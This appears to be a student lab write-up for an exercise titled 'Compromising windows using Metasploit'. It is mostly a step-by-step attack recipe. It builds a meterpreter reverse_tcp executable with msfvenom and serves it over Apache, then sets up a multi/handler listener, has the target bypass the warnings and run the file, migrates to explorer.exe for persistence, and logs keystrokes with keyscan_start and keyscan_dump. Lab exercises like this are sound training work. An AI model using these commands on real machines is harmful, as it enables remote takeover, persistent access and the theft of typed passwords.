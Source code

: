 ### Date:
# Ex-6: Compromising-windows-using-Metasploit
### Metasploit
Compromising windows using Metasploit

## AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig
### OUTPUT:

![1)](https://github.com/user-attachments/assets/f0805f25-2b83-464d-ab47-c4fc99414248)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
### OUTPUT

![2)](https://github.com/user-attachments/assets/5ed26998-335c-4c81-b80d-e61daa7a50ce)


copy the fun.exe into the apache /var/www/html folder


![3)](https://github.com/user-attachments/assets/c2461816-5137-45aa-ab2d-366f1639fd2b)


Start apache server
sudo systemctl apache2 start

![4)](https://github.com/user-attachments/assets/502183a0-9ae5-4ce0-b799-d669e9ae954e)


Check the status of apache2

![5)](https://github.com/user-attachments/assets/0d8d0328-a39f-4795-b589-78643b301834)

Invoke msfconsole:
### OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler

![6)](https://github.com/user-attachments/assets/ea687bb8-b003-441e-a1f6-05c2ad35d12e)



set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![7)](https://github.com/user-attachments/assets/8196bb53-4ddc-4e6a-8d33-99488787e379)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![8)](https://github.com/user-attachments/assets/2de61159-cad8-452d-a933-d07914aa418d)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![9)](https://github.com/user-attachments/assets/dc8de406-d4a3-440d-9966-f7578a524f33)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 


![10)](https://github.com/user-attachments/assets/6f269ded-784f-4115-92d2-b2cd3de52894)



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![11)](https://github.com/user-attachments/assets/4098d1e3-0394-4012-b817-5bef3e99c744)


keyscan_dump	Shows the keystrokes captured so far

![12)](https://github.com/user-attachments/assets/7bb28d80-71b8-4664-a907-b8c9cd424fd3)


## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
